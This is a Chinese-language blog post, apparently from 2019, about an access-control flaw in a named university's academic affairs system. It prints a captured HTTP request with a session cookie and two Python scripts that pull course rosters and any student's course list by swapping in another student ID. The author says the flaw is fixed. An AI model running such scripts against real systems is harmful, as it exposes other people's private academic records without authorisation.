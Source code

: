 ```yaml
---
layout: post
title:  "[漏洞已修复]关于学校教务系统的白给漏洞的综合利用"
date:   2019-06-20
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Life,Web]
tags: [web]
icon: icon-html
---
```


众所周知，学校的教务系统没有钓鱼网站结实。

# 关于漏洞的发现

在使用教务系统时无意间按F12键并点击了检索，发现该处的代码中有学号，自然想到修改

修改为别人学号后可以查看别人的选课信息和成绩

显然，本地发送给服务器的查询请求中包含了需要查询的学号信息

至于学号的获取，网页右上角有“在线消息”，此处无需权限即可查看**任意**选课号下对应的选课名单（现在已修复为限制特定权限级别查询）

# 关于编写脚本获取选课名单

在*在线消息*中输入任意选课号进行抓包，POST方法的HTTP请求包如下:

```tcl
POST /taglib/DataTable.jsp?tableId=3241&type=skbjdm HTTP/1.1
Host: jwgl.ouc.edu.cn
Content-Length: 249
Cache-Control: max-age=0
Origin: http://jwgl.ouc.edu.cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp
Accept-Language: zh-CN,zh;q=0.9
Cookie: LOGIN=; UM_distinctid=; SCREEN_NAME=; JSESSIONID=08DA7D4BDD750E8576F21CD46475F0E1.kingo
Connection: close

hidOption=&hidKey=&userId=&roletype=&jsrdm=&jsrmc=&nj=2019&yhdm=&emptyFlag=0&xm=&xn=2018&xq=2&style=SKBJDM&bmdm=&gradeController=on&nj2=2019&yxbdm=&sel_role=ADM000&xnxq=2018-2&sel_skbjdm=02003040&queryInfo=&_xxbt=&xxbt=&_xxnr=&xxnr=&fjmc=
```

保护个人隐私，相关个人信息未显示

经过试验发现，该请求包中的cookies只有`Jsessionid`有意义，POST的数据中`xnxq`和`sel_skbjdm`对应**学期**和**选课号**，于是编写脚本即可

值得注意的是此处应用了`referer`来（反初级爬虫？），需要在`header`中额外添加

```python
#coding=utf-8
import requests
import re
url = "http://jwgl.ouc.edu.cn/taglib/DataTable.jsp?tableId=3241&type=skbjdm"
data = {
    "xnxq": "2019-0",
    "sel_skbjdm": "02003001"
}
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp"
s  = requests.Session()
s.headers.update({'referer': refer})
response = s.post(url, data = data, cookies = cookie)
content = response.text
str1 = re.findall(r"name='yhxh'  align='left' >(.+?)</td>", content)
print str1
```

# 关于按学号获取选课清单

直接检索个人选课信息，抓包发现请求的地址为`http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params=*****`

后面的一串字符经过**BASE64**解码发现是`xn=2018&xq=2&xh=（学号）`

直接编写GET请求脚本即可

```python
import requests
import base64
import re
url0 = 'http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params='
name = 'xn=2018&xq=2&xh=（学号）'
url1 = base64.b64encode(name)
url = url0 + url1
s  = requests.Session()
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/student/xkjg.wdkb.jsp?menucode=JW130416"
s.headers.update({'referer': refer})
r = s.get(url, cookies=cookie)
str0 = r.text
str1 = re.findall(r"name=\"skbjdm\" style=\"display: none\">(.+?)</td>", str0)
str2 = re.findall(r"right;\">(.+?)</td>", str0)
print str1
print str2
```

注：此漏洞已修复，现在修改学号GET选课清单已经失效

# 综合利用

把这两个脚本合在一起即可实现科学选课

但是漏洞修复了

想要再进行科学选课的话……

提权从入门到开除，请

